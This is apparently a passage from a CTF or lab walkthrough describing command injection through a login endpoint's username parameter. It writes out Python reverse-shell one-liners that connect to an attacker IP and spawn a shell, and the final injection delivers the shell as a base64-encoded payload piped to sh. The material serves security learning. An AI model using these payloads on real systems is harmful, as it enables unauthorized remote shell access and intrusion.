Now let's try to get a reverse shell spawned on the box. Hacktricks.xyz has a great post on reverse shells, navigate to the section on python reverse shells to get an understanding on building python reverse shell payloads [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux).

I used the first line for the payload:

```python
export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

I first tried the payload:

 ```
 /login?username=;`export RHOST="YOUR_IP";export RPORT=YOUR_PORT;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`
```

This did not work sadly. Usually my next go to is to base64 encode the payload and use the following logic flow to get a shell:
__echo "base64_encoded_payload" | base64 -d | sh__

My final payload looked like this:

```
base64 payload:

decoded: 

export RHOST="10.10.27.32";export RPORT=9999;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

encoded:

cmd= echo "export RHOST...." | base64

ZXhwb3J0IF.....

-----------------------------------------------------------------

full payload:

/login?username=%3b`echo+"ZXhwb3J0IF....."+|+base64+-d+|+sh`
```

What it looks like in Burp:
